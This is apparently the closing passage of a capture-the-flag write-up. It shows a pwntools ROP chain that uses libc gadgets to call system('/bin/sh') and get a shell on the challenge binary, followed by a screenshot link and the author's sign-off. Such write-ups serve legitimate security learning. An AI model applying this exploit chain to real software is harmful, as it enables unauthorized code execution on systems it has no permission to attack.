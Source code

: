 ```python
	address_14_offset = 0x3b114 + libc.address
	ret = rop.find_gadget(['ret'])[0]
	pop_rdi = rop_libc.find_gadget(['pop rdi', 'ret'])[0]
	bin_sh = next(libc.search(b"/bin/sh\x00"))
	system = libc.symbols['system']

	call_system = flat(
	        address_14_offset,
	        ret,
	        pop_rdi,
	        bin_sh,
	        system,
   	 )
```

And when we run it

![immagine](https://github.com/Wanasgheo/Writeups/assets/111740362/109754d1-cca6-4f97-a326-173bec6709ea)

Like this we are able to get a shell, of course with the intended way, this was way faster, because we just had to insert the function `theVoid` over the `gets` call, but like this it was even more interesting ;)

Ty for the attention hope to see you again 0xCY@
